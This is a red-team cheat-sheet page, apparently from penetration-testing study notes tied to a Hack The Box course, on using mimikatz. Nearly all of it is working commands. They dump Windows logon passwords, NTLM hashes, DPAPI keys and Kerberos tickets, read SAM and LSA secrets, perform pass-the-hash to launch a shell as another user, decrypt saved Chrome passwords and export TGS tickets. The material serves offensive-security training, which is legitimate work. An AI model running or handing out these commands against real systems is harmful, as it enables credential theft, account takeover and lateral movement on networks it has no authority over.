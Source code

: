 # Mimikatz

[![password_attacks](../../../../_badges/htb/password_attacks.svg)](https://academy.hackthebox.com/course/preview/password-attacks)

<div class="row row-cols-lg-2"><div>

[mimikatz](https://github.com/gentilkiwi/mimikatz) <small>(18.7k ⭐)</small> is the most popular tool to dump Windows credentials or perform attacks such as [Pass-the-hash/Pass-the-ticket](/cybersecurity/red-team/s4.privesc/index.md#pass-the-xxx).

```shell!
PS> .\mimikatz.exe
mimikatz# privilege::debug
mimikatz# # run commands
mimikatz# exit
```

To dump credentials, hashes, tickets, etc. you can use:

```shell!
mimikatz# sekurlsa::logonPasswords full
mimikatz# sekurlsa::ekeys           # dump rc4+ntlm hashes
mimikatz# sekurlsa::dpapi           # dump DPAPI master key
mimikatz# sekurlsa::tickets /export # dump tickets
mimikatz# lsadump::sam /system:./system.hive /sam:./sam.hive
mimikatz# lsadump::sam /system:./system.hive /sam:./sam.hive /security:./security.hive
mimikatz# lsadump::lsa /patch
mimikatz# vault::list # list credential manager vaults
mimikatz# vault::cred # list credentials
```
</div><div>

To perform a pass-the-hash attack using a `rc4` or `NTML` hash:

```shell!
mimikatz# sekurlsa::pth /user:xxx /rc4:XXX /domain:xxx.yyy
mimikatz# sekurlsa::pth /user:xxx /rc4:XXX /domain:xxx.yyy /run:cmd.exe
mimikatz# sekurlsa::pth /user:xxx /ntlm:XXX /domain:xxx.yyy /run:cmd.exe
```

We can decrypt secrets encrypted using DPAPI master key using:

```shell!
mimikatz# dpapi::blob /in:"encrypted_file" /unprotect /masterkey:xxx
mimikatz# dpapi::chrome /in:".\Login Data" /unprotect /masterkey:xxx
```

To decrypt chrome passwords:

```shell!
mimikatz# dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login Data" /unprotect
```

Request a TGS ticket:

```shell!
mimikatz> kerberos::ask /target:cn # request TGS for cn
mimikatz> base64 /out:true
mimikatz> kerberos::list /export # cat b64 | tr -d '\n' | base64 -d > cn.kirbi
```

📚 See also: [pypykatz](pypykatz.md) for Linux users.
</div></div>